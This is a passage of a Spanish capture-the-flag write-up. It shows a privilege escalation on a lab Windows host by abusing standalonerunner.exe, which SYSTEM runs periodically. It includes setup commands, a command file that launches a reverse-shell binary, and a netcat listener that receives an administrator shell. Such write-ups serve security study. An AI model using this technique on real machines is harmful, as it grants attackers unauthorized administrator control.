 Primero nos copiamos los archivos `standalonerunner.exe` y `standalonexml.dll` a un directorio.
```powershell
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> copy * C:\Windows\Temp\work
```

Tenemos que crear un archivo `reboot.rsf` que contenga lo siguiente para que el flujo del programa pase por donde nosotros queremos.
```shell
$ cat reboot.rsf 
myTestDir
True
```

Ahora, para que en el método `MakeWorkingDir` la condición sea verdadera, tenemos que crear un par de directorios. El directorio `myTestDir` y dentro el directorio `working`.
`C:\Windows\Temp\work\myTestDir\working`

Y ahora en el directorio donde se encuentra el `standalonerunner.exe` creamos un archivo `command.txt` con el comando que queremos ejecutar.

En mi caso
```cmd
C:\Windows\Temp\work\shell.exe
```

Podemos comprobar que nos manda la reverse shell si ejecutamos el binario `standalonerunner.exe` y esperamos unos segundos.

Ahora replicamos lo mismo en el directorio
`C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64` ya que en principio `SYSTEM` está ejecutando el binario de forma periódica.
![Write-up Image](images/Screenshot_5.png)

Y nos ponemos en escucha con `netcat` por el puerto 443...

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 52156
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working>whoami
whoami
axlle\administrator
```
